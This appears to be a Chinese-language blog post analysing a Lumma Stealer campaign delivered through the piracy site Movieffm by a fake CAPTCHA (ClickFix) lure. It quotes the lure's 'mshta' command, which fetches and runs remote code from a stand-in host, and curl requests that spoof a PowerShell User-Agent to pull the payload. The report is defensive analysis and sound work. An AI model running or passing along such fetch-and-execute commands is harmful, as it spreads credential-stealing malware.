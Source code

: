 ```yaml
---
layout: post
title: "惡意程式分析報告：透過盜版影音網站 Movieffm 散播的 Lumma Stealer 攻擊活動 "
subtitle: ""
date: 2025-09-03
author: "Peter"
header-img: "img/post-bg-hack.jpg"
tags: [資安, 惡意程式分析, lumma stealer, clickfix]
---
```


本報告旨在分析一起利用盜版影音網站 Movieffm 進行的惡意軟體攻擊活動。攻擊者首先在該網站中植入混淆的 JavaScript 腳本。該腳本會對訪問者進行瀏覽器指紋辨識 (Fingerprinting)，針對符合條件的目標，觸發一個偽裝成 CAPTCHA 的惡意釣魚頁面。

此釣魚頁面會誘導使用者複製並執行一段 `mshta.exe` 指令，以下載並執行一個 HTA (HTML Application) 檔案。後續的攻擊鏈中，攻擊者再次利用 User-Agent 指紋辨識技術，確保只有來自 PowerShell 的請求才能接收到最終的 Lumma Stealer 惡意腳本 。

一旦 Lumma Stealer 成功執行，它將竊取受害者電腦中的瀏覽器紀錄、加密貨幣錢包、系統憑證等敏感資料，並回傳至攻擊者的 C2 (Command and Control) 伺服器。建議使用者應避免訪問高風險網站，並採用具備惡意網站過濾功能的瀏覽器或安全插件，以降低此類攻擊的風險。

## 一、攻擊鏈分析 (Attack Chain Analysis)

### 階段一：初始入侵與前端腳本植入

分析顯示，Movieffm 網站的頁面中被植入了外部 JavaScript 腳本。經分析，此腳本會動態向遠端伺服器請求並載入一段經過高度混淆的程式碼。

前端腳本
![movieffm javascript](/img/in-post/movieLumma/image-3.png)

該腳本的主要功能是動態建構並發出一個請求，用以載入更複雜的遠端 JavaScript 腳本。透過 Burp Suite 進行流量攔截，可以看到伺服器回應的 JavaScript 內容經過高度混淆。

前端回傳的 javascript response
![burp response](/img/in-post/movieLumma/image-4.png)

初步分析這份龐大的混淆腳本後，確認其核心功能之一是進行使用者 Fingerprinting。透過分析使用者的環境以精準投放 payload 或規避網路或防毒軟體的偵查。

對惡意腳本所在的伺服器 IP 進行 `dig` 與 `shodan` 調查，僅能確認其由 `servers.com` 提供服務，並架設於 Nginx 上，顯示攻擊者利用了常見的託管服務來隱藏其真實基礎設施。
![shodan](/img/in-post/movieLumma/image-6.png)

### 階段二：社交工程與惡意指令傳遞

符合特定指紋的訪問者會被重新導向至一個 CAPTCHA 驗證的釣魚頁面，此頁面託管於 Cloudflare 保護的網域後方，且每次訪問的網域名稱皆不相同，增加了追蹤的難度。

![alt text](/img/in-post/movieLumma/image-8.png)

> 此攻擊手法並非首例，這個手法被稱作 ClickFix ，常伴隨 Lumma Stealer 。詳情可參閱[此連結][1]。

此釣魚頁面的網址每次都不同，但透過 WHOIS 查詢，均發現其利用 Cloudflare 進行反向代理，增加了追蹤其來源伺服器的難度。

whois 查詢結果
![whois-cloudflare](/img/in-post/movieLumma/image-14.png)

當使用者點擊頁面上的 "I'm not a robot" 核取方塊時，網頁會執行一段 JavaScript，將一串惡意指令複製到使用者的剪貼簿中，並同時跳出一個彈窗，指示使用者按下 Ctrl + R（或 Cmd + R），然後貼上並執行指令。

頁面誘騙使用者點擊「I'm not a robot」按鈕。
![alt text](/img/in-post/movieLumma/image-9.png)

被複製的指令如下
```powershell
mshta http://malicious.site/gbg7/rhfb.c
```

> mshta.exe 是 Windows 內建的合法程式，常用於執行 HTA 檔案，但也因此成為攻擊者執行任意程式碼的常見「離地攻擊」(Living-off-the-Land) 手段。關於更多請參照[連結][2]。


### 階段三：Payload 下載與執行

為了分析 `mshta` 將要執行的內容，我們使用 `curl` 工具直接請求該 HTA 檔案。
```bash
curl -i "http://malicious.site/gbg7/rhfb.c"
```
![alt text](/img/in-post/movieLumma/image-11.png)

伺服器回傳的 HTA 檔案內容非常簡短，其核心是執行一段 PowerShell 指令，以下載並執行另一個遠端腳本。

當我們嘗試直接用 curl 訪問 PowerShell 將要下載的 URL時，卻發現請求被重新導向到無害的 Steam 網站，暗示伺服器端存在額外的檢查機制。

curl 返回結果為 redirect
![curl fingerprinting](/img/in-post/movieLumma/image-12.png)

我們推測伺服器會驗證請求的 User-Agent。因此，我們在 curl 指令中模擬 PowerShell 的 User-Agent 再次發出請求：
```bash
curl -s -X GET "http://malicious.site/gbg7/" -H "User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.19041.1320"
```

這次，伺服器成功回傳了真正的惡意 PowerShell 腳本，只有來自受害者機器上 PowerShell 程式的流量才會收到惡意 payload，而來自普通瀏覽器或分析工具的請求則會被另外重新導向。

模擬 powershell 結果為惡意腳本
![powershell user agent response](/img/in-post/movieLumma/image-13.png)

### 階段四：最終目標 - Lumma Stealer 資訊竊取軟體

我們將取得的 PowerShell 腳本上傳至 `any.run` 沙盒環境進行動態分析。

分析報告確認，該腳本的最終 payload 為 Lumma Stealer，這是一款知名的資訊竊取惡意軟體。一旦執行，它會掃描受感染的電腦，竊取儲存在瀏覽器中的敏感資料（如密碼、Cookies、信用卡資訊）、加密貨幣錢包、系統資訊等，並將所有資料打包後傳送到攻擊者的 C2 (Command & Control) 伺服器。

沙盒分析連結: https://app.any.run/tasks/29c82282-2320-4c94-9529-b5591287fe03

![any.run result](/img/in-post/movieLumma/image-15.png)


## 緩解與建議
為防範此類攻擊，建議使用者採取以下措施：

避免使用盜版或不受信任的網站服務：正版服務通常具備更完善的安全維護，較不易成為惡意程式的溫床。

使用具備防護功能的瀏覽器與擴充套件：

- 瀏覽器如 Microsoft Edge 內建的 SmartScreen 或 Google Chrome 的安全瀏覽 (Safe Browsing) 功能，能有效阻擋已知的惡意網站。
- 安裝如 uBlock Origin 等廣告攔截器，能有效阻止惡意的彈出視窗和腳本執行。

保持高度警覺，切勿執行來路不明的指令：任何引導你在終端機、PowerShell 或執行對話框中輸入的指令，都可能對你的電腦造成無法挽回的損害。務必對這類要求保持懷疑。

## 責任通報與生態系防禦
本次分析中相關連結已向相關單位通報。 

`servers.com`
![alt text](/img/in-post/movieLumma/image-16.png)

`sollutium-nl`
![alt text](/img/in-post/movieLumma/image-18.png)

`movieffm.net`
![alt text](/img/in-post/movieLumma/image-19.png)

## 附錄：樣本資訊
本次分析過程中發現的相關腳本與樣本已整理至以下 GitHub repo：
https://github.com/PPKan/malware_samples/tree/main/movieffm_samples


[1]:https://www.trendmicro.com/zh_tw/research/25/g/lumma-stealer-returns.html
[2]:https://www.cnblogs.com/backlion/p/10491616.html
